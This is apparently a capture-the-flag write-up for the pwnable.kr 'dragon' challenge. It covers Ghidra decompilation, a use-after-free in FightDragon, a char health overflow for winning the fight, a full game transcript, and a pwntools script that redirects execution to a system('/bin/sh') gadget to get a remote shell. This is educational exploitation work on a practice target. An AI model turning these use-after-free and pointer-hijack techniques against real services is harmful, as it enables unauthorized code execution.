

There is a lot going on in the `dragon` binary so I won't be diving deeply into each and every function.
You can check the [call graph visualization](#call_graph) for a general overview of the control flow.
Briefly `main` unbuffers the iostreams and calls `PlayGame` and
`PlayGame` acts as the Main Menu. Things get interesting when we get to `FightDragon`.
The following code is a tweaked version of Ghidra's decompilation output:

```c
struct Dragon {
    void (*info_function)(struct Dragon*);
    int type;
    char health;
    char regeneration;
    int damage;
};

struct Player {
    int type;
    int health;
    int mana;
    void (*info_function)(struct Player*)
}

void FightDragon(int player_type)

{
    Player *player;
    Dragon *dragon;
    char *name;
    int is_win;

    player = (Player *)malloc(0x10);
    dragon = (Dragon *)malloc(0x10);
    if ((Count & 1) == 0) {
        Count = Count + 1;
        dragon->type = 0;
        dragon->health = 0x32;
        dragon->regeneration = 5;
        dragon->damage = 0x1e;
        dragon->info_function = PrintMonsterInfo;
        puts("Baby Dragon Has Appeared!");
    }
    else {
        Count = Count + 1;
        dragon->type = 1;
        dragon->health = 0x50;
        dragon->regeneration = 4;
        dragon->damage = 10;
        dragon->info_function = PrintMonsterInfo;
        puts("Mama Dragon Has Appeared!");
    }
    if (player_type == 1) {
        player->type = 1;
        player->health = 0x2a;
        player->mana = 0x32;
        player->info_function = PrintPlayerInfo;
        is_win = PriestAttack(player,dragon);
    }
    else {
        if (player_type != 2) {
            return;
        }
        player->type = 2;
        player->health = 0x32;
        player->mana = 0;
        player->info_function = PrintPlayerInfo;
        is_win = KnightAttack(player,dragon);
    }
    if (is_win == 0) {
        puts("\nYou Have Been Defeated!");
    }
    else {
        puts("Well Done Hero! You Killed The Dragon!");
        puts("The World Will Remember You As:");
        name = (char *)malloc(0x10);
        __isoc99_scanf(&DAT_08049108,name);
        puts("And The Dragon You Have Defeated Was Called:");
        (*(code *)dragon->info_function)(dragon);
    }
    free(player);
    return;
}
```

`FightDragon` sets up the dragon and the player for the game
after which it starts the game (calling either `KnightAttack` or `PriestAttack`)
Now `KnightAttack` and `PriestAttack` do pretty much what you see
when you play the game from the terminal. There are no logical bugs in them but
what's crucial to note is that upon return they free the dragon variable.

But... look at the win branch of the `FightDragon` function(last `else` block).
It calls `dragon->info_function` even though `dragon` is at that time a dangling pointer.
You might think that this would segfault but there is actually a convenient `malloc`
2 lines before which ends up allocating the same memory block that the dragon occupied
(so `name == dragon` would evaluate to `true`).
Hmm... so the ` (*(code *)dragon->info_function)(dragon); ` would actually be a call to whatever
we write in `name`, Good, then we could write an arbitrary address redirecting code execution to it.
if we could just figure out how to win in the first place...

At first glance It looks impossible, no matter the dragon, no matter the hero you choose
you will always end up dying before the dragon. But there is another way of winning.
What might have struck you as odd in the above decompilation is that the dragon health
is stored in a char variable. That means that the dragon health can be in the range `[-128, 127]`.
We saw that trying to reduce the dragon health is futile but what if we increased it so much
that we overflowed it? I reckon the only way to do this is by using the `Priest` against
`Mama Dragon`. The idea is to let `Mama Dragon` regenerate until her health overflows:

<details>
<summary style="font-size: 1.2em;">
Expand to see how to win
</summary>

```
❮ nc pwnable.kr 9004
Welcome to Dragon Hunter!
Choose Your Hero
[ 1 ] Priest
[ 2 ] Knight
1
Baby Dragon Has Appeared!
[ Baby Dragon ] 50 HP / 30 Damage / +5 Life Regeneration.
[ Priest ] 42 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 30 Damage To You!
And The Dragon Heals 5 HP!
[ Baby Dragon ] 55 HP / 30 Damage / +5 Life Regeneration.
[ Priest ] 12 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 30 Damage To You!
And The Dragon Heals 5 HP!

You Have Been Defeated!
Choose Your Hero
[ 1 ] Priest
[ 2 ] Knight
1
Mama Dragon Has Appeared!
[ Mama Dragon ] 80 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 42 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 84 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 42 HP / 25 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 88 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 42 HP / 0 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 10 Damage To You!
And The Dragon Heals 4 HP!
[ Mama Dragon ] 92 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 32 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 96 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 32 HP / 25 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 100 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 32 HP / 0 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 10 Damage To You!
And The Dragon Heals 4 HP!
[ Mama Dragon ] 104 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 22 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 108 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 22 HP / 25 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 112 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 22 HP / 0 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 10 Damage To You!
And The Dragon Heals 4 HP!
[ Mama Dragon ] 116 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 12 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 120 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 12 HP / 25 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 124 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 12 HP / 0 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 10 Damage To You!
And The Dragon Heals 4 HP!
Well Done Hero! You Killed The Dragon!
The World Will Remember You As:
```
</details>

Nice! We won. What's left is to pass to `name` the address we want to jump to.
There is a convenient `system("/bin/sh")` gadget at address `0x08048dbf` in `SecretLevel()` function
(called from `PlayGame()` when player inputs 3) so let's jump to it.

Here is the final exploit:
```python
from pwn import *

proc = remote("pwnable.kr", port=9004)

# Lose on purpose against Baby Dragon.
proc.sendline(b'1')
proc.sendline(b'2')
proc.sendline(b'2')

# Win against Mama Dragon.
proc.sendline(b'1')

for i in range(4):
    proc.sendline(b'3')
    proc.sendline(b'3')
    proc.sendline(b'2')

proc.sendline(p32(0x08048dbf))
proc.interactive()
proc.close()
```

<details id="call_graph">
<summary style="font-size: 1.2em;">
Call graph visualization
</summary>


</details>
